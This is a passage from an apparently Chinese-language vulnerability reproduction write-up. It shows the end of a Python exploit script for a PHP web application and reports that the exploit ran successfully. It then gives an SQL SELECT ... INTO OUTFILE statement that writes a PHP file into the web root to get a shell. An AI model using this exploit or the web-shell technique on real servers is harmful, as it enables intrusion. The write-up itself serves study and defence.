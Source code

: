 ```PYTHON
        result = resp.json()["message"][resp.json()["message"].find("</a>")+8:]
        if len(result):
            print("result: " + result)
            sys.exit(0)
        print(
            "Exploit failed!\n"
            "Try to manually set exploit parameters like --table, --database and --token.\n"
            "Remember that servers with PHP version greater than 5.4.6"
            " is not exploitable, because of warning about null byte in regexp"
        )
        sys.exit(1)
            
```

直接利用测试

![1566824490470](images\1566824490470.png)

执行成功

---

### 其他

如果是权限足够，Getshell就是一件很简单的事情了。

权限足够，直接在sql界面执行语句便可

```
select '<?php phpinfo(); ?>' into outfile '/var/www/html/shll.php';
```

直接把shell打进行网站目录

### 参考链接